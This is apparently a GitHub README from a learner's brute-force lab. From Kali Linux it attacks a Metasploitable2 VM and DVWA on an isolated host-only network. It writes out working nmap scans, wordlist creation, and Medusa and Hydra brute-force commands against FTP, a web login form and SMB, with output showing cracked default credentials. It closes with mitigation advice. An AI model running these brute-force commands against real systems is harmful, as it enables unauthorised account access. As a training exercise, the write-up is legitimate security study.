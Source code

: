 # 🧠 Cybersecurity Challenge - [Brute Force Attack with Kali Linux and Medusa and other tools]...

> Full documentation of steps, evidence and scripts used in this cybersecurity challenge.

---

## 📋 Table of Contents...
- [🧩 Challenge Description](#-challenge-description)
- [🎯 Objectives](#-objectives)
- [🧪 Environment](#-environment)
- [⚙️ Steps Performed](#-steps-performed)
- [🖼️ Evidence (Screenshots)](#-evidence-screenshots)
- [🧰 Scripts & Tools](#-scripts--tools)
- [🏁 Conclusion](#-conclusion)
- [👨‍💻 Author](#-author)
---

## 🧩 Challenge Description...
Implement, document, and share a practical project using Kali Linux and some tools such as Medusa, Hydra, NMap and Enum4Linux, along vulnerable environments (for example, Metasploitable 2 and DVWA), to simulate brute-force attack scenarios and practice mitigation measures.

---

## 🎯 Objectives...
- [ ] Discover active hosts...  
- [ ] Enumerate ports and services...  
- [ ] Identify and exploit weak authentication via Medusa...  
- [ ] Demonstrate privilege escalation paths...  
- [ ] Document prevention and mitigation measures...

---

## 🧪 Environment...
We use VirtualBox with two VMs, Kali Linux and Metasploitable2, on a Host-Only network for isolation and repeatability.

**Minimum requirements...**  
- Kali Linux VM
- Metasploitable2 VM
- VirtualBox installed

**Quick setup steps...**  
1. Create two VMs in VirtualBox, one Kali and one Metasploitable2...  
2. In each VM → Settings → Network, set **Adapter 1: Host-Only Adapter**...  
3. Optionally, we can assign static IPs or rely on Host-Only DHCP, e.g., `192.168.56.10` (Kali), `192.168.56.101` (Metasploitable2)...  
4. From Kali, verify connectivity:  
   ```bash
   ping -c 3 192.168.56.101

## ⚙️ Steps Performed
1. Find a Target Host IP Address, using nmap, with this command we can scan from 192.168.56.100 to 105 IP interval to find alive hosts and write the result into a file scan.txt.
   > nmap -v -sn 192.168.56.100-105 > scan.txt

2. After that, we can have a full report from the desired host with all services running, each with their respective version.
   > nmap -sV 192.168.56.101 | sed -n '/^Nmap scan report for 192\.168\.56\.101/,/^MAC Address:/p' > report.txt

3. Creating USER and PASS lists:
   On this lab, we will be creating simple lists to use on our simulation.

USERS list:
> echo -e "user\nmsfadmin\admin\nroot" > users.txt

PASSWORD list:
> echo -e "123456\npassword\nquery\nmsfadmin" > pass.txt

4. Using MEDUSA to check FTP service vulnerability:

In this case we can use our lists to brute force access on FTP service with MEDUSA.
> medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
> 
> 2025-10-13 10:18:13 ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]
> ...more on SCREENSHOTS

5. Using HYDRA to brute force Web Form.

Now we have another scenary, a DVWA WEB FORM and we will try to pass.

First we'll access http://192.168.56.101/dvwa/login.php

Now using other wordlists we can use HYDRA to check it out.
>hydra -L users.txt -P pass.txt 192.168.56.101 http-post-form \
 "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -t 6 -V

6. Password SPRAYING and Enum4Linux

Enum4Linux is a good tool to enumerate services from a Host.

> enum4linux -a 192.168.56.101 > enum4out.txt


7. Using MEDUSA to find the Key for a smbnt service.
   
> medusa -h 192.168.56.101 -U users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
2025-10-13 10:52:57 ACCOUNT FOUND: [smbnt] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]

Now we can check if it's the right one.

>smbclient -L 192.168.56.101 -U msfadmin


## 🖼️ Evidence (Screenshots)

*** More on Screenshots folder ***


## 🧰 Scripts & Tools
Virtual Box | https://www.virtualbox.org/
Metaspoitable2 | https://www.rapid7.com/products/metasploit/metasploitable/
Kali Linux | https://www.kali.org/
Medusa | https://www.kali.org/tools/medusa/
Enum4Linux | https://www.kali.org/tools/enum4linux/
Hydra | https://www.kali.org/tools/hydra/
nMap | https://nmap.org/ | https://www.kali.org/tools/nmap/


## 🏁 Conclusion

The lab revealed clear security gaps... Default and weak passwords were found... Services exposed to common networks made access easier... Lack of audits and monitoring increased risk...


Practical mitigations:

1. Enforce strong password policies and credential management via tools (SSM, vault).

2. Stop exposing unnecessary services to public networks, use segmentation and VPNs.

3. Restrict services to VLANs and strict firewall rules.

4. Run regular configuration audits and pentests, fix critical findings immediately.

5. Continuous monitoring and anomaly detection (SIEM/EDR), with alerts and response playbooks.

6. Maintain asset inventory and review/remove privileged or stale accounts.

7. Require MFA for all admin and sensitive service access.

## 👨‍💻 Author

Renato de Castro
Developer / Security Enthusiast.

